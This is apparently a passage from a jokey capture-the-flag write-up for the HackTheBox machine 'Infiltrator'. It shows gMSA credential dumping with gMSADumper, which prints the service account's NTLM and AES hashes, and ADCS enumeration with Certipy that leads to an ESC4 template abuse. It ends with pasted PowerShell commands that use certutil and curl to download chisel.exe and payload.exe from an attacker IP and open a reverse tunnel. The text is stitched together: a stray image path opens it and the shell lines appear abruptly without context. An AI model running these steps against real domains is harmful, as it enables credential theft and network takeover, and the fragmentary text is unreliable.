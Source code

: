 How we do it? We just whisper real nice to AD, and it hands us the whole encrypted blob like:

> “Hey king, here's the service account's whole-ass credential. Don't spend it all in one Kerberos.”

```console
$ python gMSADumper.py -u 'lan_managment' -p 'l@n_M@an!1331' -d infiltrator.htb
Users or groups who can read password for infiltrator_svc$:
 > lan_managment
infiltrator_svc$:::9ae7de37439f359608eccf2cff5d32b9
infiltrator_svc$:aes256-cts-hmac-sha1-96:efa1fa0fcbe57177f6f89d8513d16cbbb673ed8b85a137e5eb06baefdd3c0d27
infiltrator_svc$:aes128-cts-hmac-sha1-96:4d556ec8ebc73e358d05430c7696f1f0
```

One quick decrypt later and boom: password’s sittin’ in plaintext like it paid rent. Now `infiltrator_svc$` is ours to command. And with a gMSA under your belt? Bro, you’re not just in the network. **You are** the network.

Let’s cook.

#### Certipy

We back on the grind and it’s time to hunt some **ADCS** sauce. Fire up that **Certipy** like it’s a radar gun pointed straight at Microsoft’s feelings.

```console
$ certipy find -u 'infiltrator_svc$@Infiltrator.htb' -hashes '9ae7de37439f359608eccf2cff5d32b9' -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'infiltrator-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'infiltrator-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'infiltrator-DC01-CA'
[*] Saved BloodHound data to '20240907170709_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240907170709_Certipy.txt'
[*] Saved JSON output to '20240907170709_Certipy.json'

```

JSON hits us back with that sweet, sweet **ESC4** vulnerability. And guess who’s got it? That’s right—**`INFILTRATOR.HTB\\infiltrator_svc`** out here holdin’ dangerous perms like it’s his mixtape. Now if you don’t know about ESC4—lemme hit you with the lore:

> ESC4 means our boi has **write access to a certificate template**. Which is basically like giving a random intern edit rights to the company’s security policy and just hopin’ for the best.


[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe